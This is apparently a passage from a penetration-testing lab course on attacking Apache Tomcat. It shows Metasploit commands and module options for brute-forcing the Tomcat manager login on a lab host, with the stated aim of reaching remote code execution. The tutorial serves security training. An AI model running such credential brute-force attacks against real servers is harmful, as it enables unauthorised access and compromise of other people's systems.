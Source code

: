 # Attacking Tomcat

We've identified that there is indeed a Tomcat host exposed externally by our client. As the scope of the assessment is relatively small and all of the other targets are not particularly interesting, let's turn our full attention to attempting to gain internal access via Tomcat.

As discussed in the previous section, if we can access the `/manager` or `/host-manager` endpoints, we can likely achieve remote code execution on the Tomcat server. Let's start by brute-forcing the Tomcat manager page on the Tomcat instance at `http://web01.inlanefreight.local:8180`. We can use the [auxiliary/scanner/http/tomcat\_mgr\_login](https://www.rapid7.com/db/modules/auxiliary/scanner/http/tomcat\_mgr\_login/) Metasploit module for these purposes, Burp Suite Intruder or any number of scripts to achieve this. We'll use Metasploit for our purposes.

***

### Tomcat Manager - Login Brute Force

We first have to set a few options. Again, we must specify the vhost and the target's IP address to interact with the target properly. We should also set `STOP_ON_SUCCESS` to `true` so the scanner stops when we get a successful login, no use in generating loads of additional requests after a successful login.

Attacking Tomcat

```shell-session
msf6 auxiliary(scanner/http/tomcat_mgr_login) > set VHOST web01.inlanefreight.local
msf6 auxiliary(scanner/http/tomcat_mgr_login) > set RPORT 8180
msf6 auxiliary(scanner/http/tomcat_mgr_login) > set stop_on_success true
msf6 auxiliary(scanner/http/tomcat_mgr_login) > set rhosts 10.129.201.58
```

As always, we check to make sure everything is set up correctly by `show options`.

Attacking Tomcat

```shell-session
msf6 auxiliary(scanner/http/tomcat_mgr_login) > show options 

Module options (auxiliary/scanner/http/tomcat_mgr_login):

   Name              Current Setting                                                                 Required  Description
   ----              ---------------                                                                 --------  -----------
   BLANK_PASSWORDS   false                                                                           no        Try blank passwords for all users
   BRUTEFORCE_SPEED  5                                                                               yes       How fast to bruteforce, from 0 to 5
   DB_ALL_CREDS      false                                                                           no        Try each user/password couple stored in the current database
   DB_ALL_PASS       false                                                                           no        Add all passwords in the current database to the list
   DB_ALL_USERS      false                                                                           no        Add all users in the current database to the list
   PASSWORD                                                                                          no        The HTTP password to specify for authentication
   PASS_FILE         /usr/share/metasploit-framework/data/wordlists/tomcat_mgr_default_pass.txt      no        File containing passwords, one per line
   Proxies                                                                                           no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS            10.129.201.58                                                                   yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT             8180                                                                            yes       The target port (TCP)
   SSL               false                                                                           no        Negotiate SSL/TLS for outgoing connections
```